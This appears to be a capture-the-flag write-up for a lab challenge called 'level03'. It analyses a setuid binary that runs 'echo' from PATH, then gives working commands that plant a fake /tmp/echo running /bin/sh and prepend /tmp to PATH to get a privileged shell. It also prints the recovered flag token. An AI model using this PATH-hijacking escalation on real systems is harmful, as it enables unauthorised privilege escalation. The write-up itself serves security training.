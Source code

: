 # level03

1. Files found in `~/` :

    ```bash
    ./level03
    ```

    File : `./level03` belonging to `flag03`

2. Binary analysis

    ```bash
    chmod +x level03
    ./level03
    Exploit me
    ```

    Binary inspection with strings and file :

    ```bash
    file level03
    strings -n 6 level03 | grep echo
    ```

    The binary uses echo from its PATH in the environment and has the rights of its creator (setuid / setgid).

    ```bash
    setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
    ```

    ```bash
    /usr/bin/env echo Exploit me
    ```

3. Exploitation

    Redirect echo to a command prompt in order to launch `getflag`.

    ```bash
    echo '/bin/sh' > /tmp/echo
    chmod +x /tmp/echo
    export PATH=/tmp:$PATH
    ./level03
    getflag
    ```

4. Token discovered

    The token is : `qi0maab88jeaj46qoumi7maus`
